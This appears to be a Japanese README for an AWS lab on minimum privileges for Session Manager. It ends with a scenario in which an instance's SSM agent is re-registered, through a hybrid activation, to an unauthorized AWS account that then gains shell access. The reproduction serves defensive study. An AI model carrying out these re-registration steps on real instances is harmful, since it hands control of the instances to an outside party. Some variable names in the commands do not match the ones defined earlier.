# SessionManager-MinimumPrivilege
Systems Manager - Session Managerを利用する場合の最小権限の確認



# 検証手順
## (1)事前設定
### (1)-(a) 作業環境の準備
下記を準備します。
* bashが利用可能な環境(LinuxやMacの環境)
* aws-cliのセットアップ
* AdministratorAccessポリシーが付与され実行可能な、aws-cliのProfileの設定

### (1)-(b) gitのclone
```shell
git clone https://github.com/Noppy/SessionManager-MinimumPrivilege.git
cd SessionManager-MinimumPrivilege
```

### (1)-(c) CLI実行用の事前準備
これ以降のAWS-CLIで共通で利用するパラメータを環境変数で設定しておきます。
```shell
export PROFILE=<Fargaeを動かすComputeAccount用のプロファイルを指定>
export REGION=<デプロイ先のリージョン>

#プロファイルの動作テスト
aws --profile ${PROFILE} sts get-caller-identity

```

## (2)環境の準備
### (2)-(a) VPC作成
```shell
# ComputeVPC
aws --profile ${PROFILE} --region ${REGION} \
    cloudformation create-stack \
        --stack-name SSMTestVPC \
        --template-body "file://./src/vpc-2az-4subnets.yaml" \
        --parameters "file://./src/SSmTestVpc.json" \
        --capabilities CAPABILITY_IAM ;
```
### (2)-(b) VPCエンドポイント作成
```shell
aws --profile ${PROFILE} --region ${REGION} \
    cloudformation create-stack \
        --stack-name SSMTestVpce \
        --template-body "file://./src/vpce-allowall.yaml"
```

### (2)-(c) インスタンス作成
```shell
KEYNAME="CHANGE_KEY_PAIR_NAME"  #環境に合わせてキーペア名を設定してください。
```
```shell
#最新のAmazon Linux2のAMI IDを取得します。
AMIID=$(aws --profile ${PROFILE} --region ${REGION} --output text \
    ec2 describe-images \
        --owners amazon \
        --filters 'Name=name,Values=amzn2-ami-hvm-2.0.????????.?-x86_64-gp2' \
                  'Name=state,Values=available' \
        --query 'reverse(sort_by(Images, &CreationDate))[:1].ImageId' ) ;

#Clientインスタンス作成
CFN_STACK_PARAMETERS='
[
  {
    "ParameterKey": "AmiId",
    "ParameterValue": "'"${AMIID}"'"
  },
  {
    "ParameterKey": "KeyName",
    "ParameterValue": "'"${KEYNAME}"'"
  }
]'

aws --profile ${PROFILE} --region ${REGION} \
    cloudformation create-stack \
        --stack-name SSMTestInstances \
        --template-body "file://./src/bastion_and_testinstance.yaml" \
        --parameters "${CFN_STACK_PARAMETERS}" \
        --capabilities CAPABILITY_IAM ;
```
## (3)ログイン
```shell
#BastionとSSMインスタンスのIPを確認する
aws --profile ${PROFILE} --region ${REGION} \
    cloudformation describe-stacks \
        --stack-name SSMTestInstances  \
        --query 'Stacks[].Outputs'

#SSHでBastionに接続
ssh-add
ssh -A ec2-user@<上記で確認したBastionのPublic IPアドレス>
```
```shell
#Bastionサーバ
ssh <上記で確認したSsmのPrivate IPアドレス>

# Setup AWS CLI
REGION=$(curl -s http://169.254.169.254/latest/meta-data/placement/availability-zone | sed -e 's/.$//')
aws configure set region ${REGION}
aws configure set output json
```


## セキュリティリスクシナリオの確認
Systems Managerのハイブリットアクティベーション機能を利用し、不正なAWSアカウントのSSMにVPCエンドポイント経由でSSM接続し、セッションマネージャで不正アクセスするシナリオを再現します。
### (1) 不正アカウントでSystems Managerのハイブリットアクティベーション作成
手元の作業PCで以下の手順で、不正なAWSアカウントにハイブリットアクティベーションを作成します。
#### (1)-(a)事前準備
```shell
UNAUTH_PROFILE="<不正アカウントのAdmin権限のあるプロファイルを指定>"
UNAUTH_REGION="${REGION}"
```
#### (1)-(b)ハイブリットアクティベーション用のIAMロール作成
```shell
#必要情報の取得
AccountID=$(aws --profile ${OTHER_PROFILE} --output text sts get-caller-identity --query 'Account')

# ハイブリットアクティベーション用のロール作成
ASSUME_ROLE_JSON='{
   "Version":"2012-10-17",
   "Statement":[
      {
         "Sid":"",
         "Effect":"Allow",
         "Principal":{
            "Service":"ssm.amazonaws.com"
         },
         "Action":"sts:AssumeRole",
         "Condition":{
            "StringEquals":{
               "aws:SourceAccount":"'"${AccountID}"'"
            },
            "ArnEquals":{
               "aws:SourceArn":"arn:aws:ssm:'"${OTHER_REGION}"':'"${AccountID}"':*"
            }
         }
      }
   ]
}'
# ロール作成
aws --profile ${UNAUTH_PROFILE} \
    iam create-role \
        --role-name "SSMActivationServiceRole" \
        --assume-role-policy-document "${ASSUME_ROLE_JSON}" \
        --max-session-duration 43200

#Policyのアタッチ
aws --profile ${UNAUTH_PROFILE} \
    iam attach-role-policy \
        --role-name "SSMActivationServiceRole" \
        --policy-arn arn:aws:iam::aws:policy/AmazonSSMManagedInstanceCore

#Policyのアタッチ
aws --profile ${UNAUTH_PROFILE} \
    iam attach-role-policy \
        --role-name "SSMActivationServiceRole" \
        --policy-arn arn:aws:iam::aws:policy/AmazonSSMDirectoryServiceAccess

```
#### (1)-(c)ハイブリットアクティベーション作成
ハイブリットアクティベーションを作成し、作成されたアクティベーションのIDとCODEを控えておきます。
```shell
aws --profile ${UNAUTH_PROFILE} --region ${UNAUTH_REGION} \
    ssm create-activation \
      --iam-role "SSMActivationServiceRole" \
      --registration-limit 10

# 上記を実行時のリターンで表示されるIDとCodeを控えておく
# {
#    "ActivationId": "xxxx",
#    "ActivationCode": "xxxxx"
# }
```
#### (1)-(d)インスタンスの追加
SsmTestインスタンスのOSにログインし、上記のアクティベーション情報を利用して不正アカウントのSSMにSsmTestインスタンスを登録しいます。
```shell
#以下のコマンドは、SSMTestインスタンスにログインした状態で実行する。
ID="<アクティベーションのActivationId>"
CODE="<アクティベーションのActivationCode>"
REGION="<アクティベーションを作成したリージョン>"

#SSMエージェントの停止
sudo systemctl stop amazon-ssm-agent

#不正アカウントのアクティベーションへの登録
sudo amazon-ssm-agent -register -code "${CODE}" -id "${ID}" -region "${REGION}"

# 以下のメッセージが出力されればOK
# INFO Successfully registered the instance with AWS SSM using Managed instance-id: mi-xxxxx"

#SSMエージェント起動
sudo systemctl start amazon-ssm-agent
```
#### (1)-(e)不正アカウントでの確認ンスタンスの追加
不正アカウントのマネージメントコンソールで以下ができることを確認する。
- Systems Managerのフリーとマネージャーに該当インスタンスが存在すること
- セッションマネージャで該当インスタンスにアクセス可能であること

